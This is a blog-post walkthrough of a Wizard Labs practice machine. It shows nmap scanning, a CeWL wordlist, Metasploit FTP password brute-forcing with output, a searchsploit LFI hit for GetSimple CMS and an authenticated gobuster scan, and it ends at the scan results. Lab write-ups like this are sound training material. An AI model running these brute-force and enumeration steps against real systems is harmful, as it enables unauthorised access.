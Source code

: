 ```yaml
---
layout: post
title: 
date: 2019-04-16 19:46
author: rowbot
comments: true
categories: [Wizard Labs]
---
```

<!-- wp:paragraph -->
<p>nmap -sC -sV -oA all -vv -p- 10.1.1.58</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":717,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-13.png" alt="" class="wp-image-717"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Anonymous ftp login disabled</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>SAMBA shares locked down</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Port 8080 reveals webserver. Asking for helpers to email admin@moonlight.net to get ftp credentials.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":718,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-14.png" alt="" class="wp-image-718"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I poked different ports for a bit and nothing jumped out. Doing gobuster directory traversal searches revealed nothing either. I tried to get in the mindset of a company that wants help, they would want to send people access creds and they would be farely simple, so I tried helper:helper and it worked. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":719,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-15.png?fit=680%2C227" alt="" class="wp-image-719"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Cewl would have been able to bruteforce the password also</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"> ✘ ⚡  ~/Desktop/moonlight  cewl $ip:8080 -w cewl.dump
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
</pre>
<!-- /wp:preformatted -->

<!-- wp:html -->
<pre><u style="text-decoration-style:single">msf5</u> auxiliary(<font color="#EF2929"><b>scanner/ftp/ftp_login</b></font>) &gt; show options 

Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting         Required  Description
   ----              ---------------         --------  -----------
   BLANK_PASSWORDS   false                   no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                       yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                   no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                   no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                   no        Add all users in the current database to the list
   PASSWORD                                  no        A specific password to authenticate with
   PASS_FILE         ../moonlight/cewl.dump  no        File containing passwords, one per line
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false                   no        Record anonymous/guest logins to the database
   RHOSTS            10.1.1.58               yes       The target address range or CIDR identifier
   RPORT             21                      yes       The target port (TCP)
   STOP_ON_SUCCESS   false                   yes       Stop guessing when a credential works for a host
   THREADS           50                      yes       The number of concurrent threads
   USERNAME          helper                  no        A specific username to authenticate as
   USERPASS_FILE     ../moonlight/cewl.dump  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                   no        Try the username as the password for all users
   USER_FILE                                 no        File containing usernames, one per line
   VERBOSE           true                    yes       Whether to print output for all attempts
</pre>
<!-- /wp:html -->

<!-- wp:html -->
<pre><font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: helper:good (Incorrect: )
<font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: helper:content (Incorrect: )
<font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: helper:The (Incorrect: )
<font color="#8AE234"><b>[+]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - Login Successful: helper:helper
<font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: Moonlight: (Incorrect: )
<font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: for: (Incorrect: )
<font color="#EF2929"><b>[-]</b></font> 10.1.1.58:21          - 10.1.1.58:21 - LOGIN FAILED: Project: (Incorrect: )
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>access.txt contains the following info</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":725,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-16.png" alt="" class="wp-image-725"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Back to dirbusting and I found /content page with htaccess authentication request: I inputted the newly acquired details and got access.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":727,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-17.png?fit=680%2C240" alt="" class="wp-image-727"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I wanted to find the version and the admin login and helpfully the version number was on the admin screen</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":730,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-18.png" alt="" class="wp-image-730"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"id":732,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-20.png" alt="" class="wp-image-732"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I tried a few default passwords but no luck.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Searchsploit revealed the 3.1.2 is vulnerable to LFI</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><font color="#EF2929"><b>Getsimple</b></font> CMS 3.1.2 - &apos;path&apos; Local File Inclusion                                                                                                                | exploits/php/webapps/37587.txt
</pre>
<!-- /wp:html -->

<!-- wp:html -->
<pre><font color="#4E9A06">gobuster</font> -w <u style="text-decoration-style:single">/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</u> -u http://10.1.1.58:8080/content/admin -P secret -U collaborator -s 200 -t 100 -x php
</pre>
<!-- /wp:html -->

<!-- wp:html -->
<pre>=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.1.1.58:8080/content/admin/
[+] Threads      : 100
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200
[+] Auth User    : collaborator
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2019/04/16 17:28:13 Starting gobuster
=====================================================
/index (Status: 200)
/index.php (Status: 200)
/Index (Status: 200)
/Index.php (Status: 200)
/api (Status: 200)
/api.php (Status: 200)
/share (Status: 200)
/share.php (Status: 200)
/favicon (Status: 200)
/cron (Status: 200)
/cron.php (Status: 200)
2019/04/16 17:28:50 [!] Get http://10.1.1.58:8080/content/admin/INDEX.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/API (Status: 200)
/API.php (Status: 200)
/Share (Status: 200)
/Share.php (Status: 200)
/resetPassword (Status: 200)
/resetPassword.php (Status: 200)
/humans (Status: 200)
/resetpassword (Status: 200)
/resetpassword.php (Status: 200)
/SHARE (Status: 200)
/SHARE.php (Status: 200)
2019/04/16 17:38:54 [!] Get http://10.1.1.58:8080/content/admin/ResetPassword.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
=====================================================
2019/04/16 17:47:04 Finished
=====================================================
</pre>
<!-- /wp:html -->
